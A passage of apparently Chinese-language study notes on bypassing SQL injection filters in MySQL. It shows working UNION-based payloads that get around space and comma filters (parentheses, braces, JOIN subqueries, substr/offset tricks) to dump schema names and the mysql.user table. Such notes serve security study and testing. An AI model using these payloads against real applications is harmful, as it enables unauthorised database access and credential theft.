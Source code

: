样例`select(user),(host)from(mysql.user);`

真实模拟

`select user,host from mysql.user where user='root'union(select(group_concat(schema_name)),(null)from(information_schema.schemata))#'`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202202131650473.png)

样例`select{x(user)},{x(host)}from{x(mysql.user)};`

真实模拟

`select user,host from mysql.user where user='root'union(select{x(group_concat(schema_name))},{x(null)}from{x(information_schema.schemata)})#'`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202202131742371.png)

- 在特定情况下,偶数个`!`或`~`可以代替空格

偶数个`!`进行多次逻辑非运算

偶数个`~`进行多次取反运算(不变)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203241431617.png)

## 逗号被过滤

`select 1,2,3;`

`select * from((select 1)a join (select 2)b join (select 3)c);`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202202131826535.png)

真实模拟

`select user,host,file_priv from mysql.user where user='root'union select * from ((select group_concat(schema_name) from information_schema.schemata)a join (select 1)b join (select 2)c)#'`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202202132047064.png)

`select id,info from table3 union select * from (select group_concat(user) from mysql.user)a join (select group_concat(host) from mysql.user)b;`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202202151417672.png)

`mid`和`substr`是可以不使用`,`的

```
select substr('asdfgh',1,2)
select substr('asdfgh' from 1 for 2)
mid同理
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202202151356999.png)

`limit`的逗号可以用`offset`进行替换
